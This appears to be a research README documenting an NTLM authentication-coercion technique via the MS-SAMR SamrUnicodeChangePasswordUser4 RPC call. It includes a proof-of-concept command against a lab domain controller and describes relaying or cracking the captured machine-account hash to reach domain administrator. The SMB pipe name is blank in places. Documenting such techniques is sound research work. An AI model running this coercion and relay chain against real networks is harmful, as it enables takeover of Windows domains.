 # MS-SAMR - Remote call to SamrUnicodeChangePasswordUser4 (opnum 73)

## Summary

 - **Protocol**: [[MS-SAMR]: Security Account Manager (SAM) Remote Protocol (Client-to-Server)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380)

 - **Protocol UUID**: 12345778-1234-abcd-ef00-0123456789ac

 - **Protocol version**: 1.0

 - **SMB Named pipe**: ``

 - **Function name**: [`SamrUnicodeChangePasswordUser4`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/bbc1c5e5-9b81-4038-b2b9-c87d3569ed38)

 - **Function operation number**: `73`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-SAMR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380) protocol (with uuid `12345778-1234-abcd-ef00-0123456789ac` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-SAMR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-SAMR]: Security Account Manager (SAM) Remote Protocol (Client-to-Server)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380) and allows to call RPC functions of this protocol. We will then call the remote [`SamrUnicodeChangePasswordUser4`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/bbc1c5e5-9b81-4038-b2b9-c87d3569ed38) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
SamrUnicodeChangePasswordUser4('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NTSTATUS
 SamrUnicodeChangePasswordUser4(
     [in]         handle_t BindingHandle,
     [in,unique]  PRPC_UNICODE_STRING  ServerName,
     [in]         PRPC_UNICODE_STRING  UserName,
     [in]         PSAMPR_ENCRYPTED_PASSWORD_AES   EncryptedPassword
     );
```

## References

 - Documentation of protocol [MS-SAMR]: Security Account Manager (SAM) Remote Protocol (Client-to-Server): https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380

 - Documentation of function `SamrUnicodeChangePasswordUser4`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/bbc1c5e5-9b81-4038-b2b9-c87d3569ed38